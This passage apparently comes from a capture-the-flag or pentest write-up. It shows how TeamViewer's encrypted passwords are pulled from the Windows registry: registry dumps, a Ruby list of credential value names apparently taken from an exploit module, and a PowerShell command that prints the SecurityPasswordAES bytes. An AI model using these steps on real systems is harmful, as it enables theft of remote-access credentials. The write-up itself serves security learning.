 MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1704810710
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer
PSChildName               : Version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry
{% endhighlight %}

The exploit searches the following key-value pairs for encrypted passwords.

{% highlight ruby %}
    locations = [
      { value: 'OptionsPasswordAES', description: 'Options Password' },
      { value: 'SecurityPasswordAES', description: 'Unattended Password' }, # for < v9.x
      { value: 'SecurityPasswordExported', description: 'Exported Unattended Password' },
      { value: 'ServerPasswordAES', description: 'Backend Server Password' }, # unused according to TeamViewer
      { value: 'ProxyPasswordAES', description: 'Proxy Password' },
      { value: 'LicenseKeyAES', description: 'Perpetual License Key' }, # for <= v14
    ]
{% endhighlight %}

We spot the <mark>SecurityPasswordAES</mark> and retrieve its values.

{% highlight shell %}
PS HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7> (Get-ItemProperty -Path .).SecurityPasswordAES
255
155
28
115
214
107
206
49
172
65
62
174
19
27
70
79
88
47
108
226
209
225
243
218
126
141
55